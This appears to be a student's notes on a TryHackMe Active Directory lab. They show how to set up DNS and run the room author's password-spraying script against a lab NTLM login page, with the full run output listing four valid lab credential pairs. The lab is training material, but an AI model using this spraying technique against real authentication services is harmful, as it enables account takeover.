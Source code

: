 # Network connection
- Added IP of `THMDC` to Network Manger > Advanced Setting > My network(`eth0`) > IPv4 > Additional DNS Server > THMDC IP (10.200.24.101), 1.1.1.1


## Password Spraying
- We will use password Spraying technique for a found password, for e.g., found a default password for new user in OSINT search. 
- In password spraying, unlike brute-forcing, a password is used against different users, this will prevent the account from lockout.
- We will password spray a website `http://ntlmauth.za.tryhackme.com/`
- We already have a custom password spraying script made by the room author .

```
python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>
```

> <userfile> - Textfile containing our usernames - "usernames.txt"
> <fqdn> - Fully qualified domain name associated with the organisation that we are attacking - "za.tryhackme.com"
> <password> - The password we want to use for our spraying attack - "Changeme123"
> <attackurl> - The URL of the application that supports Windows Authentication - "http://ntlmauth.za.tryhackme.com"

- Started the script and found 4 valid credential pairs

```console
❯ python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com  | tee password_spry.log
[*] Starting passwords spray attack using the following password: Changeme123
[-] Failed login with Username: anthony.reynolds
[-] Failed login with Username: samantha.thompson
[-] Failed login with Username: dawn.turner
[-] Failed login with Username: frances.chapman
[-] Failed login with Username: henry.taylor
[-] Failed login with Username: jennifer.wood
[+] Valid credential pair found! Username: hollie.powell Password: Changeme123
[-] Failed login with Username: louise.talbot
[+] Valid credential pair found! Username: heather.smith Password: Changeme123
[-] Failed login with Username: dominic.elliott
[+] Valid credential pair found! Username: gordon.stevens Password: Changeme123
[-] Failed login with Username: alan.jones
[-] Failed login with Username: frank.fletcher
[-] Failed login with Username: maria.sheppard
[-] Failed login with Username: sophie.blackburn
[-] Failed login with Username: dawn.hughes
[-] Failed login with Username: henry.black
[-] Failed login with Username: joanne.davies
[-] Failed login with Username: mark.oconnor
[+] Valid credential pair found! Username: georgina.edwards Password: Changeme123
[*] Password spray attack completed, 4 valid credential pairs found
```

- Logged on to found this webpage

```html
<html>
  <head>
  </head>
  <body>
    Hello World
  </body>
</html>
```
